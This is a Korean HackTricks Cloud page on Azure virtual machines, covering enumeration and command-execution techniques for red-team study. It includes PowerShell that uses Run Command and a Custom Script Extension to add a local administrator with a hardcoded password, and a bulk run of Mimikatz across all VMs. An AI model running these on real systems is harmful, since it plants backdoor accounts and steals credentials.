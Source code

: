 # Az - 가상 머신 및 네트워크

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## 기본 정보

[문서에서:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 가상 머신은 Azure가 제공하는 여러 유형의 [온디맨드, 확장 가능한 컴퓨팅 리소스](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 중 하나입니다. 일반적으로 다른 선택지보다 컴퓨팅 환경을 더 세밀하게 제어해야 할 때 가상 머신을 선택합니다. 이 문서에서는 가상 머신을 생성하기 전에 고려해야 할 사항, 생성 방법 및 관리 방법에 대한 정보를 제공합니다.

## Azure 네트워크 정보

Azure 네트워크에는 **다양한 엔티티 및 구성 방법**이 포함되어 있습니다. 다양한 Azure 네트워크 엔티티의 간단한 **설명**, **예제** 및 **열거 명령어**를 찾을 수 있습니다:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**은 Azure 포털을 통해 SSL을 통해 안전하게 완전히 관리되는 RDP (원격 데스크톱 프로토콜) 및 SSH (보안 셸) 액세스 솔루션을 제공합니다. Azure 가상 네트워크 내에 통합되어 있어 개인 IP를 사용하여 VM에 RDP 및 SSH 연결을 허용하므로 공개 IP 할당 및 NSG 규칙 구성이 필요하지 않습니다. 이는 공개 IP 할당 및 NSG 규칙 구성을 피하고 VM 액세스를 위한 전통적인 방법보다 안전하고 편리한 대안입니다. 개발자 및 IT 직원은 웹 브라우저를 사용하여 Azure 포털에서 VM에 안전하게 액세스할 수 있어 개발 및 테스트 환경의 프로세스를 간소화할 수 있습니다.

구독 내 모든 Azure Bastion 호스트를 나열하려면 다음 명령어를 사용할 수 있습니다:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 열거
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **가상 머신에서 명령 실행**

### **VM에서 AAD 로그인**

AzureAD를 통해 인증된 사용자들에게 액세스 권한을 부여하는 것이 가능합니다. 예를 들어 **linux VM**에 액세스하려고 시도할 때: `ssh username@azure-corp.com@1.1.1.1` (로그인 시 사용한 azurecorp 이메일을 **사용하는 것이 중요**합니다) 이와 같은 오류가 발생할 수 있습니다:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

그 **지침을 따르세요** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)으로 이동하고 코드를 입력한 후, 이메일과 비밀번호를 자격 증명으로 사용하여 SSH를 통해 연결할 수 있습니다 (해당 사용자가 충분한 권한을 가지고 있다면: `Virtual Machine Administrator Login` 또는 `Virtual Machine User Login` 역할).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **사용자 지정 스크립트 익스텐션 실행**

Azure 가상 머신 (VM) 익스텐션은 **작은 응용 프로그램**으로, **Azure VM**에서 **배포 후 구성 및 자동화 작업**을 제공합니다. 예를 들어, 가상 머신에 소프트웨어 설치, 백신 프로그램 보호 또는 내부 스크립트 실행이 필요한 경우 VM 익스텐션을 사용할 수 있습니다.

따라서 쓰기 액세스가 있는 경우 임의의 코드를 실행할 수 있습니다:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

원하는 구성 상태 (DSC)는 코드를 통해 호스트를 설정하는 데 사용되는 Ansible과 유사한 PowerShell 도구입니다. DSC는 Azure와 통합되어 특정 구성 파일을 업로드할 수 있습니다. 이러한 파일은 엄격한 구문에 준수해야 합니다. 특히 Azure의 DSC 확장은 특정 형식 기준을 충족하는 파일에서 명령을 실행할 수 있습니다. 구문이 DSC 표준에 맞지 않더라도 제공된 그림에서 확인할 수 있듯이 명령을 실행할 수 있습니다.

이러한 명령의 실행은 Az PowerShell의 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 함수에 의해 용이하게 이루어집니다. 요구 사항에는 정의된 함수가 포함된 **.PS1** 파일과 해당 파일이 **.zip** 파일로 압축되어 있어야 합니다. DSC에 대한 구문이 정확하지 않더라도 코드는 여전히 실행됩니다. 그러나 확장은 실행 상태를 "실패"로 표시하고 명령에서의 출력은 실패 메시지에 의해 덮어씌워져 보이지 않습니다.

### VM Application Definitions

VM Application Definitions을 사용하면 버전화된 응용 프로그램을 Azure VM에 반복 배포할 수 있습니다. 이 리소스는 VM 간에 응용 프로그램을 배포하고 업데이트하는 것을 지원합니다. 이를 설정하려면 Az PowerShell의 **`New-AzGalleryApplication`** 및 **`New-AzGalleryApplicationVersion`**과 같은 명령을 포함하는 여러 단계가 필요합니다.

이 방법을 통해 응용 프로그램이나 명령을 실행하는 것은 **"VMAppExtension"**을 통해 이루어집니다. 이는 응용 프로그램이 VM에 적용될 때 자동으로 설치됩니다. 확장은 지정된 URI에서 파일을 검색하고 응용 프로그램과 동일한 이름으로 확장자 없이 파일을 저장합니다. 파일을 올바르게 실행하려면 REST API 호출에서 "ManageActions" 필드를 구성하여 파일을 적절한 확장자로 이름을 변경해야 합니다. 이 방법의 설정이 완료되면 제공된 그림에 표시된 구조와 유사해집니다.

그러나 이 실행 방법은 비교적 느리며, 응용 프로그램이나 명령을 실행하는 데 약 3-4분이 소요됩니다. 이 프로세스와 관련된 파일은 특정 디렉토리에 저장됩니다 (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`는 응용 프로그램 복사용이고 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`는 실행 상태용입니다).

두 기술은 각각 고유한 요구 사항, 단계 및 고려 사항을 갖추고 있어 Azure 환경에서 명령을 실행하고 응용 프로그램을 배포하는 독특한 방법을 제공합니다.

### Azure의 Hybrid Worker Groups (HWGs)

Azure의 Hybrid Worker Groups (HWGs)는 지정된 HWG의 일부인 Azure 가상 머신(VM)에서 구성된 Automation Account에 있는 Runbook을 실행할 수 있는 기능입니다. 이 실행은 VM에 설치된 확장을 통해 VM에 Runbook 코드를 배포합니다. 이 프로세스의 중요한 측면은 코드가 실제 자격 증명에 영향을 받지 않고 실행되는 것입니다. 이는 코드가 특정 권한으로 실행되므로 실제 자격 증명이 필요하지 않습니다. 이 프로세스는 제공된 그림에서 나타난 것처럼 **SYSTEM** 또는 root로 실행됩니다.

Windows 10 VM을 사용하는 사용자에게 중요한 세부 정보는 Runbook에 대한 PowerShell 버전을 명시해야 한다는 것입니다. PowerShell 버전은 7.1이 아닌 5.1로 설정되어야 합니다. 이 요구 사항은 PowerShell 7.1이 이러한 VM에 기본적으로 설치되지 않기 때문에 7.1 버전이 지정된 경우 스크립트 실행이 실패할 수 있기 때문입니다.

Azure의 이러한 기능은 하이브리드 환경에서 작업을 자동화하고 관리하는 강력한 방법을 제공하여 Azure VM에서 작업을 중앙 집중식으로 관리하고 실행할 수 있습니다.


## 참고 자료

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
